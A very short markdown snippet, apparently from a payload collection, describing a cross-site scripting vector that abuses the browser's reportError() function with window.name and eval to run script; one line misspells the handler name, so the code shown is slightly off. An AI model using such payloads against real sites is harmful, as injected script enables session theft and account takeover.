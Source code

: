 # XSS
1-The new reportError() function enables a quite amusing XSS vector:
`window.name='alert(1)'`
`reportError(name , enerror=eval)`
